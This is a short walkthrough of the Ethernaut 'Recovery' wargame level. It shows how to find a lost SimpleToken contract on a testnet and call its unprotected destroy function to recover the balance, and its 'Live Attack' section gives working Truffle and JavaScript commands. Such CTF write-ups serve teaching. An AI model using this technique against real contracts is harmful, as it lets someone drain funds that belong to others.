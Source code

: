 # Recovery

[Recovery](https://ethernaut.openzeppelin.com/level/0xb4B157C7c4b0921065Dded675dFe10759EecaA6D)

Given the Recovery contract address, we simply go to 
[Etherscan](https://goerli.etherscan.io/address/0x585f58a6e380487e67574a9b27f823eb86b14ec8) 
to identify the SimpleToken contract address. From there it is just a matter of connecting 
to SimpleToken and calling destroy, passing our address as the reciever for outsanding balance.

Recovery: <BR />
``0x585f58a6e380487e67574A9B27F823eB86b14EC8``

SimpleToken: <BR />
``0x9D8016110233433B5C097DAb14b5cAF8cc8Adaf5``

<BR />

# Live Attack

```BASH
truffle compile
truffle console --network goerli
```

```JS
sender = accounts[5]

token = await SimpleToken.at("0x9D8016110233433B5C097DAb14b5cAF8cc8Adaf5")
await token.destroy(sender)
```